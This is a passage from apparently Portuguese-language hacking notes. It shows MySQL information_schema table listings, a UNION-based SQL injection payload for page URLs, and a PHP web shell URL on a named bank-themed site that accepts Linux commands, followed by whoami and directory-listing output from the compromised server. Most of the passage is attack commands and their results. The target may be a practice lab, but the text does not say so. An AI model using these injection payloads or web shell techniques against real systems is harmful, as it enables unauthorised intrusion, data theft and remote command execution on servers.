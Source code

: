 ```bash
| SCHEMATA                              |
| SCHEMA_PRIVILEGES                     |
| SESSION_STATUS                        |
| SESSION_VARIABLES                     |
| SPATIAL_REF_SYS                       |
| STATISTICS                            |
| SYSTEM_VARIABLES                      |
| TABLESPACES                           |
| TABLE_CONSTRAINTS                     |
| TABLE_PRIVILEGES                      |
| TABLE_STATISTICS                      |
| USER_PRIVILEGES                       |
| USER_STATISTICS                       |
| VIEWS                                 |
| XTRADB_INTERNAL_HASH_TABLES           |
| XTRADB_READ_VIEW                      |
| XTRADB_RSEG                           |
| COLUMNS                               |
| ENGINES                               |
| EVENTS                                |
| PARTITIONS                            |
| PLUGINS                               |
| PROCESSLIST                           |
| TABLES                                |
| TRIGGERS                              |
+---------------------------------------+
```

Alguns comandos que posso utilizar na URL das páginas (inserir código SQL)

- `-{:id} union select 1,2,database()`

----

## SHELL Hacking

### PHP Info

**Server Shell info**: `PHP Version 5.6.40-29+ubuntu18.04.1+deb.sury.org+1`

```bash
http://www.bancocn.com/admin/uploads/shellphp.php7?cmd=<LINUX COMMAND>
```

**Whoami**: `www-data`

Para ver as pastas do servidor e se localizar é só utilizar o comando `pwd`

```bash
/var/www/html/admin/uploads 
```

```bash
$ ls ../
del.php footer.php header.php index.php login.php logout.php new.php uploads

$ ls../../
admin all.php assets cat.php classes css footer.php header.php images index.php robots.txt show.php 
```
